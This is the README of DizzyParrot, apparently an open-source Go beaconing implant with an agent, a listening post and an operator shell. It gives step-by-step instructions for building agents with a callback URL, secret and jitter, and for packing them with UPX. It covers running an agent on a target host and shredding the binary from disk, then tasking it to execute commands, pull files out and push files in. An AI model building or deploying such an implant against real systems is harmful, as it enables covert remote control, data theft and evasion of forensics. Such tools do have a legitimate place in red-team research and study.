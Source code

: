 # DizzyParrot

[![Generic badge](https://img.shields.io/badge/Go-v1.14-blue.svg)](https://shields.io/) [![GitHub license](https://img.shields.io/github/license/Naereen/StrapDown.js.svg)](https://github.com/Naereen/StrapDown.js/blob/master/LICENSE)

A simple beaconing implant written in Go. DizzyParrot consist of an agent, listening post, and interactive shell. The agent communicates to the LP over HTTP/2 at a specified interval. An agent can be tasked using the interactive shell to pull and push files, and execute commands on the target host. 

![Shell](https://user-images.githubusercontent.com/10587919/78269929-34740c80-74d8-11ea-94cf-ecdc0d130dbe.png)

## Getting Started

#### Install dependencies (Debian and Ubuntu)
```
apt update && apt -y upgrade && apt -y install build-essential postgresql screen vim git upx
```

#### Start Postgres and create user
```
# Command is provided after installing dependencies
pg_ctlcluster 11 main start

# Verify
pg_ctlcluster 11 main status

# Change to postgres user
su - postgres

# Create user
createuser --interactive --pwprompt
# Enter name of role to add: dizzy
# Enter password for new role: dizzy
# Enter it again: dizzy
# Shall the new role be a superuser? (y/n) y

# Exit from postgres user
exit
```

#### Install go
```
wget https://dl.google.com/go/go1.14.1.linux-amd64.tar.gz
tar -C /usr/local -xzf go1.14.1.linux-amd64.tar.gz
rm -f go1.14.1.linux-amd64.tar.gz

echo "export PATH=$PATH:/usr/local/go/bin" >> ~/.profile
source ~/.profile
```
#### Build with Makefile

Edit the Makefile to include the LP and agent specific information. This can be overridden from the command line as an alternative. 

Additional architectures can be added. To view a list of architectures supported natively by go, use the go tool command.

```
go tool dist list
```

Generic build instructions with make.
```
# Build a server, lp, and shell
make all

# Make the server
make build_server

# Make a custom agent
make build_mips

# Make a custom agent and override Makefile enviornmental variables
make build_arm NAME=A10002

# Override options
make build_ppc NAME=A10002 URL=https://localhost:8443/portal/status SECRET=dizzyparrot CALLBACK=300 JITTER=60
```

#### Clone the repo using git and get go dependencies (Manual)
```
# Clone repo
git clone https://github.com/af001/DizzyParrot.git

# Go dependencies 
go get gopkg.in/yaml.v2
go get golang.org/x/net/http2
go get github.com/lib/pq
go get github.com/c-bata/go-prompt
go get github.com/common-nighthawk/go-figure
go get github.com/jedib0t/go-pretty/table
```

#### Build LP and shell
```
cd server; go build server.go
cd shell; go build shell.go
```

#### Build agent 
```
# Build for host Linux
go build -ldflags "-s -w -X main.name=A10000 -X main.secret=dirtyparrot -X main.callback=300 -X main.jitter=60 -X main.url=https://localhost:8443/portal/details"

# Cross-compile mips
GOOS=linux GOARCH=mips go build -ldflags "-s -w -X main.name=A10000 -X main.secret=dirtyparrot -X main.callback=300 -X main.jitter=60 -X main.url=https://localhost:8443/portal/details"

# To compress binaries to a smaller size, use upx
upx --brute client
```

#### Start the LP
```
# Generate cert
cd server; mkdir cert
openssl req -newkey rsa:2048 -nodes -keyout cert/server.key -x509 -days 365 -out cert/server.crt

# Start the LP
./server -c cert/config.yml

# To use a screen session
screen -S DIZZY_LP
./server -c config.yml

# To background screen
ctrl+a d

# To interact with screen session
screen -ls
screen -x DIZZY_LP
```

#### Start the shell
```
cd shell
./shell -c config.yml

# To use a screen session
screen -S DIZZY_SHELL
./shell -c config.yml

# To background screen
ctrl+a d

# To interact with screen session
screen -ls
screen -x DIZZY_SHELL
```

#### Execute agent on target host

If not using real certs, the client requieres the server certificate upon execution. After execution, the binary and certificate can be removed from disk. 

```
# Start agent
./client -c server.crt &

# To run in memory 
shred -fuz client server.crt
```

#### Validate Postgres database
```
# Login to shell
sudo -u postgres psql

# View tables
\dt
```
#### Basic Usage

```
agents               : List available agents.
agent <agent name>   : Tag into an agent for interaction. Tag without a name brings the user back to home and lists agents. 
task <command>       : Task the agent to execute a command. Must start with shell. Ex: /bin/bash, /bin/sh, cmd.exe
staged               : Show jobs in the queue and are staged to be deployed to the agent.
deploy               : Move staged jobs into the deployed queue. Agent will pick these tasks up.
revoke               : Remove deployed jobs. 
revoke restage       : Removes deployed jobs and places in the staged queue to allow for additional commands to be added.
flush                : Flush the commands in the staged queue.
set callback <int>   : Task the agent to modify its callback. In seconds.
set jitter <int>     : Task the agent to offset the callback (+/-) by x seconds. In seconds.
kill                 : Kill the agent process.
job <job_id>         : Show the output from a job
jobs                 : List complete and deployed jobs.
pull <rfile>         : Pull a file from the target machine.
push <lfile> <rfile> : Push a local file to the target machine
forget <agent_name>  : Remove an agent from the database. 
dump agent           : Not yet implemented
dump job             : Not yet implemented
```

#### Todo
 
1. Add database column that indicates bool value for files.

2. Write files pulled to out folder instead of database. Based on bool value. Preserve pull path.

3. Add shell feature to dump agent results and commands to disk.

4. Add shell command to wipe database.

5. Add a scheduler option to run recurring commands at a given interval.
